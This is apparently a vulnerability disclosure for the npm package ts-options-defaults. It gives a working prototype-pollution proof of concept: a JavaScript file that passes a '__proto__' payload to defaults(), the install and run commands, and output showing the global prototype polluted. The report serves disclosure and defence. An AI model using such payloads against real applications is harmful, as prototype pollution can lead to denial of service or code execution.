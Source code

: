 # Description

`ts-options-defaults` is vulnerable to `Prototype Pollution`.
This package allowing for modification of prototype behavior, which may result in Information Disclosure/DoS/RCE.


# Proof of Concept

1. Create the following PoC file:

```js
// poc.js
var {defaults} = require("ts-options-defaults")
const payload = JSON.parse('{"__proto__":{"polluted":"Yes! Its Polluted"}}');
var obj = {}
console.log("Before : " + {}.polluted);
defaults(obj, payload);
console.log("After : " + {}.polluted);
```

2. Execute the following commands in another terminal:

```bash
npm i ts-options-defaults # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
